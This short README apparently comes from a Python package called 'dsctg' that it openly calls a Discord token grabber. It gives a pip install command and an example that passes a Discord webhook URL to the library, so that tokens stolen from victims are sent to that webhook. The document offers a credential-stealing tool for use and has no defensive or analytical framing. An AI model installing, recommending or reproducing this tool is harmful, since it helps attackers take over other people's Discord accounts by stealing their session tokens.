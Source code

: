 # Discord Token Grabber

Grab discord tokens and send it to your discord webhook

## Installation
```bash
pip install dsctg
```

## Example:
```py
import dsctg

# Your discord webhook url
webhook_url = 'https://discord.com/api/webhooks/61942069/y0U5uCk'

dsctg.webhook(webhook_url)

```
